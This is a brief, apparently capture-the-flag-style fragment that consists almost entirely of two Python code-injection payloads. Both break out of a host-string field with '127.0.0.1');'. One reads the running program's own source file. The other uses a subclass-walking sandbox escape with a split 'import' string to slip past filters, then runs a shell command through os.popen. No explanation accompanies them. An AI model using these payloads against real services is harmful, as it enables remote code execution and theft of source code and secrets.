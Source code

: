 127.0.0.1'); global secret; secret=open(__file__,"r").read();#, port 80
127.0.0.1'); global secret; secret=().__class__.__base__.__subclasses__()[192]()._module.__builtins__["__impo"+"rt__"]("o"+"s").popen("id").read();#
